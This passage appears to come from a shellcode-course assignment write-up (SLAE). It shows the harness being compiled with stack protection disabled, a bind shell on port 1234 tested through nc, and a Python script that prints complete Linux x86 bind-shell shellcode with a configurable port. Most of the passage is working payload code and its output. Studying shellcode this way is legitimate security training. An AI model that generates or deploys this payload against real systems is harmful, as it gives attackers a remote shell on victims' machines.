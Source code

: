 ```
absolomb@ubuntu:~/SLAE/assignments/1$ gcc shellcode.c -o shellcode -fno-stack-protector -z execstack
absolomb@ubuntu:~/SLAE/assignments/1$ ./shellcode
Shellcode Length:  97
```

```
absolomb@ubuntu:~/SLAE/assignments/1$ netstat -ant | grep 1234
tcp        0      0 0.0.0.0:1234            0.0.0.0:*               LISTEN     
absolomb@ubuntu:~/SLAE/assignments/1$ nc 127.0.0.1 1234
id
uid=1000(absolomb) gid=1000(absolomb) groups=1000(absolomb),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),124(sambashare)
```

#3 Python Script for Configurable Port

To make the port configurable I made a simple Python script (which isn't the prettiest but works). The script will output the shellcode with the desired port.

```python
#!/usr/bin/env python3
import sys
import struct


if len(sys.argv) < 2:
    print("port needed")
    exit()

port = int(sys.argv[1])

if port > 65535:
    print("Please enter a valid port number!")
    exit()

if port < 1024:
    print("You'll need to be root to use this port!")
    exit()

port = struct.pack("!H", port)
port = str(port).lstrip("b'")
port = port.rstrip("'")


shellcode = """
\\x31\\xc0\\x31\\xdb\\x31\\xc9\\xb0\\x66\\xb3\\x01\\x51\\x53\\x6a\\x02
\\x89\\xe1\\xcd\\x80\\x89\\xc7\\xb0\\x66\\x5b\\x31\\xd2\\x52\\x66\\x68%s
\\x66\\x53\\x89\\xe1\\x6a\\x10\\x51\\x57\\x89\\xe1\\xcd\\x80\\x31\\xc0
\\x50\\x57\\x89\\xe1\\x43\\x43\\xb0\\x66\\xcd\\x80\\x31\\xd2\\x52\\x52
\\x57\\x43\\x89\\xe1\\xb0\\x66\\xcd\\x80\\x93\\x31\\xc9\\xb1\\x02\\xb0
\\x3f\\xcd\\x80\\x49\\x79\\xf9\\x52\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f
\\x62\\x69\\x6e\\x89\\xe3\\x89\\xd1\\xb0\\x0b\\xcd\\x80
""" % (port)

print ("Shellcode:")
print(shellcode.replace("\n", ""))
```
